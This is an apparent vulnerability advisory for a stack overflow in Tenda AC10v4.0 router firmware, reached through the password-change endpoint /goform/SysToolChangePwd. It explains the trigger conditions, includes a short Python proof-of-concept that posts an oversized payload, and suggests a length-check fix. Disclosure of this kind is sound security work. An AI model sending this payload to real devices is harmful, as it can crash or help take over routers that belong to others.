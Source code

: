 ## Affected Version
* Tenda AC10v4.0 V16.03.10.13
* Tenda AC10v4.0 V16.03.10.20

## Vulnerability Description
Tenda AC10v4.0 V16.03.10.13 and Tenda AC10v4.0 V16.03.10.20 was discovered to contain a stack overflow via parameter SYSPS at url **/goform/SysToolChangePwd**.Through this stack overflow and a carefully constructed ROP chain, RCE can be achieved.

## Vulnerability Details
The premise of the attack is to know the value of sys.userpass or to crack the value of sys.userpass

make the values ​​of v3 and v6 are the same, the values ​​of v4 and v5 are the same, and the values ​​of v3 and v4 are different. **In this way, the function SetValue("sys.userpass", v4); will be called to make the value of sys.userpass a very long string. When the page is visited again, GetValue("sys.userpass", v6); will cause a stack overflow through v6.**
![alt text](image.png)

* exp

```python
import sys
import requests

payload = b'A'*0x200

#you should know the value of sys.userpass in advance, or blast it out
userpass="userpass"
url = f"http://192.168.50.100/goform/SysToolChangePwd"
data = {
    "SYSOPS": userpass,
    "SYSPS": payload,
    "SYSPS2": payload
}
requests.post(url=url, data=data)
requests.post(url=url, data=data)

```

## Any suggested solutions to fix
check password length before saving
